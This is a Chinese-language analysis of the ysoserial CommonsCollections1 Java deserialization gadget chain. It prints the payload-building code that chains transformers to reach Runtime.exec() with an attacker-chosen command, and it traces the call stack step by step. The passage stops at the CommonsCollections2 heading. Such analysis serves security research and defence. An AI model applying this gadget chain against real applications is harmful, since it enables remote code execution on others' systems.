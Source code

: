 ## ysoserial CommonsCollections1-7模块分析

### 0x00 前言

`ysoserial`中的`CommonsCollections`系列模块，是在实际的Java反序列化漏洞利用中被用到比较多的模块。

### 0x01 CommonsCollections1

这次直接在`Runtime.getRuntime().exec()`下断点，命中后查看栈回溯的各层代码，理清利用链的调用过程。

图1：当`Runtime#exec()`被命中时，函数调用堆栈：
![](pic/ysoserial-cc1-1.png)

```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

从`CommonsCollections1#getObject()`中可以知道，返回的是 `AnnotationInvocationHandler`类型，即`payload`为`AnnotationInvocationHandler`对象序列化后的
故栈回溯到`AnnotationInvocationHandler#readObject()`方法即可。

根据上图的函数调用堆栈，结合上一篇分析文章中提到的`Java动态代理`技术，可以比较容易的得出`CommonsCollections1`的利用链，如下：

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

又因为`ChainedTransformer#iTransformers`是一个长度为`5`的数组，而且在上面的函数堆栈中，当`iTransformers[i]#transform()`最后一次被执行时，数组索引`i`为3，所以其实这里`iTransformers[i]#transform()`循环执行了四次，最后才命中`Runtime#exec()`。

![](pic/ysoserial-cc1-2.png)

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

从`CommonsCollections1#getObject()`可知，`ChainedTransformer#iTransformers`指向的数组如下：
```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {
        String.class, Class[].class }, new Object[] {
        "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {
        Object.class, Object[].class }, new Object[] {
        null, new Object[0] }),
    new InvokerTransformer("exec",
        new Class[] { String.class }, execArgs),
    new ConstantTransformer(1) };
```

所以`iTransformers[i]#transform()`循环执行四次的过程大概如下：
```
iTransformers[0].transform(object)
—> ConstantTransformer.transform("entrySet")
—> return Runtime.class  (next object)

iTransformers[1].transform(object)
—> InvokerTransformer.transform(Runtime.class)
—> return Method(object) [代表Runtime#getRuntime()]   (next object)

iTransformers[2].transform(object)
—> InvokerTransformer.transform(Method getRuntime)
—> return Runtime(object)  (next object)

iTransformers[3].transform(object)
—> InvokerTransformer.transform(Runtime obj)
—> return obj.exec(cmd) [即调用Runtime#exec(cmd)]
```

最终，`CommonsCollections1`的利用链如下：
```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Class#getMethod()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#getRuntime()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

### 0x02 CommonsCollections2

